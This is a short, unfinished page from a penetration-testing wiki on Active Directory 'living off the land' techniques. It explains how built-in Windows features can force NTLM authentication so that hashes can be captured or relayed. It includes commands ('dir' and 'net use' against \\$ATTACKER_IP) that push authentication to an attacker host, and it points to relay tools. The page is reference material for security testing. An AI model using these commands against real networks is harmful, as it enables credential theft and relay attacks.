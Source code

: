 ```yaml
---
authors: 'ShutdownRepo, joker2a, mpgn, nuts7, sckdev'
category: ad
---
```


# 🛠️ Living off the land

> [!WARNING]
> This is a work-in-progress. It's indicated with the 🛠️ emoji in the page name or in the category name

## Theory

> In the physical world, “living off the land” simply means to survive only by the resources that you can harvest from the natural land. There may be multiple reasons for doing this — perhaps you want to get “off the grid,” or maybe you have something or someone to hide from. Or maybe you just like the challenge of being self-sufficient.
>
> In the technology world, “living off the land” (LotL) refers to attacker behavior that uses tools or features that already exist in the target environment. ([source](https://logrhythm.com/blog/what-are-living-off-the-land-attacks/))

There are multiple "living off the land" techniques that can be used to force authentications, to capture hashes, or to relay authentications. In order to use those techniques, testers need to have an initial access to "the land", i.e. the tools or features the technique uses.

## Practice

Those techniques will usually generate outgoing traffic on SMB or HTTP, hence requiring the attacker to set up an SMB or HTTP server to [capture](../ntlm/capture.md) or [relay](../ntlm/relay.md) the authentication (e.g. using tools like [Responder](https://github.com/SpiderLabs/Responder) (Python), [Inveigh](https://github.com/Kevin-Robertson/Inveigh) (Powershell), [ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) (Python) or [Inveigh-Relay](https://github.com/Kevin-Robertson/Inveigh) (Powershell)).

### Command execution

On Windows machines, cmdlets like `net` or `dir` can be used to make the machine access a remote resource, hence making it authenticate. This leads to an outgoing traffic using SMB.

```bash
dir \\$ATTACKER_IP\something
net use \\$ATTACKER_IP\something
```

The rpcping command can also be used to trigger an authentication. The perk of this technique is that the auth won't carry a signing negotiation flag, hence allowing for relays

### MS-SQL queries execution
